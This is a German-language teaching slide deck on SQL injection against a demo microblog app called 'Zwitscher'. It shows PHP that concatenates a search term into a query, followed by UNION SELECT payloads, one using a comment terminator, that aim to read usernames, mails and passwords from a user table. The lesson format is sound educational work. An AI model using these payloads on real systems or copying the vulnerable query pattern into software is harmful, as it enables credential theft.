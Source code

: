 ## Mehr über Zwitscher

- [Zwitscher](../zwitscher/) besitzt eine Benutzertabelle
- Wir kennen den Namen der Tabelle und die Namen ihrer Spalten
<br />
<br />
- Name der Tabelle: *user*
- Namen der Spalten: *username*, *mail*, *password*, *age*
<br />
<br />

**Ansatz: Ergänze eine "normale" Abfrage um eine zusätzliche Abfrage der Tabelle *user***

---

## Erster Versuch

```php
$sql = "SELECT * FROM zwitscher WHERE hashtag = '" . $search . "';";
```
---
Eingabe: <span style="color:crimson">#dog' UNION SELECT *  FROM user</span>

```php
$sql = "SELECT *
        FROM zwitscher
        WHERE hashtag = '#dog' UNION SELECT * FROM user';
```

[Code ausführen](../zwitscher/?search=%23hashtag%27+UNION+SELECT+*+FROM+user)

<div style="text-align: left"><i>"SQL-Fehler: Es wurde ein Fehler in Ihrer SQL-Syntax gefunden. Suchen Sie in der zu Ihrer MySQL-Server-Version gehörigen Anleitung nach der richtigen Syntax bei der Benutzung von ''' in Zeile 1."</i></div>
<div style="text-align: left"><i>"Syntax-Fehler: Es gibt ein störendes Anführungszeichen."</i></div>

---

## Zweiter Versuch

- Was tun mit ungewolltem Code?
<br />
- Auskommentieren!
- Ansatz: Werde störende Zeichen los, indem du sie auskommentierst

--

## Zweiter Versuch

Eingabe: <span style="color:crimson">#dog' UNION SELECT *  FROM user; -- </span>

( **Wichtig:** Leerzeichen nach Trennzeichen )
